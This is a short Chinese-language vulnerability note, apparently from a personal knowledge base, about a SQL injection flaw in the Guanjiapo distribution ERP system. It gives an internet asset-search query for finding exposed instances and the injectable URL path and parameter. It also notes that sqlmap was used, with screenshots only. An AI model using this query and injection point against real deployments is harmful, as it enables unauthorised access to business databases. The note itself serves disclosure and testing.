 # 任我行管家婆分销ERP系统存在sql注入漏洞

# 一、漏洞简介
成都任我行软件股份有限公司管家婆分销ERP系统存在sql注入漏洞

# 二、影响版本
+ 管家婆分销ERP系统

# 三、资产测绘
+ hunter`app.name="任我行管家婆分销 ERP"`
+ 特征

![1699200115160-f74d7aa1-ec34-4806-8151-2bf4ef69fa85.png](./img/j1jES1lDMCQvT9nF/1699200115160-f74d7aa1-ec34-4806-8151-2bf4ef69fa85-743940.png)

# 四、漏洞复现
访问以下路径报错

```plain
/common/viewaccountBase.asp?TimeCheckPoint=80616.91&billnumberid=-1&billtype=
```

![1699200602090-f8c2751d-1e3a-43c5-bdc5-138975e733ba.png](./img/j1jES1lDMCQvT9nF/1699200602090-f8c2751d-1e3a-43c5-bdc5-138975e733ba-525092.png)

sqlmap

![1699200576963-197e2080-8057-4fc4-8f58-6ffa8dc49a28.png](./img/j1jES1lDMCQvT9nF/1699200576963-197e2080-8057-4fc4-8f58-6ffa8dc49a28-122769.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sazxvh1vu8fxg8rn>
